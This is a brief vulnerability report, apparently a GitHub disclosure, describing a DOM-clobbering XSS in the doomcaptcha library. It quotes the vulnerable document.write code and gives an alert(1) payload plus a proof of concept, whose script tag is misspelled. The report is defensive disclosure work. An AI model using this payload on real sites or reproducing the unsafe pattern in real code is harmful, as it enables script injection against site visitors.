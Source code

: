 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<scrip>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
